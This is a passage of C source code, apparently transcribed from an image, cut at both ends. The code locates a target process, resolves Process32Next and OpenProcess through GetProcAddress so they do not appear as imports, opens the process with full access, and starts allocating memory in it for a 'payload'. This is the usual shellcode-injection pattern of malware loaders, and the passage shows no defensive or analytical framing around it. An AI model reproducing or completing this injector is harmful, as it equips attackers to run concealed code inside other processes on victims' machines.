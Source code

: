 ```c
        HANDLE           hSnapshot,
        LPPROCESSENTRY32 lppe    
    )) GetProcAddress( kernel32_dll_handle, "Process32Next" );

    if( NULL == _Process32Next )
    {
        // printf( "Could not resolve Process32Next!\n" );
        return 1;
    }

    do
    {   
        // printf( "process id = %d\n", current_process.th32ProcessID );
        if( process_id == current_process.th32ProcessID )
        {
            HANDLE( WINAPI * _OpenProcess )
            (
                DWORD dwDesiredAccess,
                BOOL  bInheritHandle,
                DWORD dwProcessId            
            );

            _OpenProcess = ( HANDLE (WINAPI *)
            (
                DWORD dwDesiredAccess,
                BOOL  bInheritHandle,
                DWORD dwProcessId             
            )) GetProcAddress( kernel32_dll_handle, "OpenProcess" );

            if( NULL == _OpenProcess )
            {
                // printf( "Could not resolve OpenProcess!\n" );
                return 1;
            }

            target_process = _OpenProcess( PROCESS_ALL_ACCESS, TRUE, current_process.th32ProcessID );
            break;
        }
    }

    while( _Process32Next(process_snapshot, &current_process) );

    CloseHandle( process_snapshot );

    if( NULL == target_process )
    {
        return 1;
    }

    //
    // ALLOCATE MEMORY IN TARGET PROCESS
    //
    size_t payload_size = sizeof( payload );
    LPVOID target_process_allocated_memory = NULL;
    
    LPVOID( WINAPI * _VirtualAllocEx )
    (
        HANDLE hProcess,
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD  flAllocationType,
        DWORD  flProtect    
```